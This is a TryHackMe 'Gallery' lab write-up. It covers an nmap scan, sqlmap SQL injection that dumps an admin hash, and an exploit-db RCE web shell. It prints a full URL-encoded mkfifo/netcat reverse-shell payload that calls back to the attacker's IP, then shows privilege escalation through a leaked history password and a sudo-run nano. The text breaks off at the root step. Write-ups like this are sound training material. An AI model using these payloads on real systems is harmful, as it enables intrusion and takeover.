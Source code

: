 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>



<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports and also i may get a valueable port thats open in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

The server have 3 open ports, now i got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, i get an apache ubuntu default page, this doesn't help much.. 
but i noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that i get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
This gave me an idea that the Login page maybe got some SQL injection vulnerability!
Running sqlmap i can see it detected that the username paramater is vulnerable to an sql injection attack, now i could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, i have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. <br><br>
The exploit uploaded a file to the server, which contained a ?cmd= paramter<br>

Run netcat in listener mode, so the remote host could connect to my Kali:<br>
```
$ ncat -nlvp 8001
```

I pasted my netcat script in the cmd parameter and i successfully got a more stable netcat reverse shell!
```
http://10.10.191.82/gallery/uploads/1760716080_TagogdgiydphbhaodrhLetta.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Cbash+-i+2%3E%261%7Cnc+<Your ip>+8001+%3E%2Ftmp%2Ff
```

<br>
I got shell as www-data, and found the first flag in mike's home directory, but only the user "mike" can read the user.txt, so i have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he forgot to hit enter, and revealed his password in the bash history file:
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to mike's account with the found password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

<hr>

<h3>5. Question: What's the root flag?</h3>
I ran "sudo -l" and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of opt/rootkit.sh?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can do anything, because nano lets you to execute system commands.
<br>
<br>
So press CTRL + R and then CTRL + X in nano's UI, this will allow us to execute programs, as root because nano is run as root
<img src = ""> 
<br>

